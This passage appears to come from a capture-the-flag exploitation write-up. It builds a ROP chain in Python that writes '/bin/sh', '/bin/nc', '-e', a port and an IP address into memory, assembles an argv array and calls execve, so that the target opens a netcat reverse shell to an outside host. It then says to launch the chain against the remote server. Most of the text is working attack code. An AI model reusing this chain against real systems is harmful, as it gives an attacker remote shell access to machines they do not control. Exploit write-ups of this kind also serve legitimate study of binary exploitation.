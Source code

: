 first, lets write the strings into the binary

```python
mov(BSS, 0x68732f6e69622f),         # /bin/sh
mov(BSS + 8, 0x636e2f6e69622f),     # /bin/nc
mov(BSS + 16, 0x652d),              # -e
mov(BSS + 24, 0x31303039),          # '9001'
mov(BSS + 32, 0x2e3834322e343031),  # 104.248.153.73
mov(BSS + 40, 0x33372e333531),
```

next, we will create an array that will contain form the arguments and contains a pointer to one of the strings above

```python
# {"/bin/nc","ip","1337","-e","/bin/sh"}
mov(BSS + 48, BSS + 8),     # /bin/nc
mov(BSS + 56, BSS + 32),    # ip
mov(BSS + 64, BSS + 24),    # 9001
mov(BSS + 72, BSS + 16),    # -e
mov(BSS + 80, BSS),         # /bin/sh
mov(BSS + 88, 0x0),         # NULL (terminate array)
```

so, our argv is at the address of `BSS + 48`

then we'll just have to set the parameters into `execve()`

```python
POP_RDI,
BSS + 8,
POP_RSI, 
BSS + 48,
POP_RAX_RDX_RBX,
0x3b,
0x0,
0x0,

SYSCALL,
```

all correct and set, launch it against the remote server
